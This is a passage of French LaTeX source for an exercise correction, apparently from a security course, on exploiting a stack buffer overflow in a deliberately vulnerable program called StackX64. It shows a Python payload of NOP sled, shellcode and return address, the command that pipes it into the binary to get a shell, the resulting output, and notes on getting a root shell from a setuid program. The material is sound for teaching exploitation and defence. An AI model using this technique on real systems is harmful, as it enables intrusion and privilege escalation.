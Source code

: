 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet StackX64]
\begin{correction}
\begin{lstlisting}[style=CStyle,language=Python,title=exploit\_phase3.py]
payload = nop_sled + shellcode + addr_bytes
sys.stdout.buffer.write(payload)
\end{lstlisting}

\textbf{3c)} Exécution de l'exploit :
\begin{lstlisting}[style=GDBStyle]
$ (python3 exploit_phase3.py ; cat) | ./stackx64
=== StackX64 - Vulnerable Program ===
[DEBUG] main() is at address:            0x401216
[DEBUG] secret_function() is at address:  0x4011d6
[DEBUG] vulnerable_function() is at:      0x4011f6

[DEBUG] buffer is at address: 0x7fffffffde10
[DEBUG] Enter your input:
[DEBUG] You entered: (garbage)
whoami
etudiant
exit
\end{lstlisting}

\textbf{3d)} L'architecture x86-64 utilise l'ordre \textbf{little-endian} : l'octet de poids faible est stocké à l'adresse la plus basse.

Conversion de \texttt{0x7fffffffde10} en little-endian :
\begin{lstlisting}[style=GDBStyle]
0x7fffffffde10 --> \x10\xde\xff\xff\xff\x7f\x00\x00
\end{lstlisting}

\begin{pointcle}
\begin{itemize}
    \item L'injection de shellcode donne les \textbf{mêmes privilèges} que le programme vulnérable. Si le programme est \texttt{setuid root}, l'attaquant obtient un shell root.
    \item Le \texttt{; cat} après le script Python est essentiel : sans lui, \texttt{stdin} se ferme immédiatement et le shell ne peut pas recevoir de commandes.
    \item Les adresses dans GDB peuvent différer de quelques octets par rapport à l'exécution directe. Le NOP sled absorbe cette différence.
\end{itemize}
\end{pointcle}

\end{correction}



\subsection*{Phase 4 -- Protection NX et Return-to-libc \hfill\normalfont\textit{($\sim$35 min)}}


\end{exercice}
\end{document}
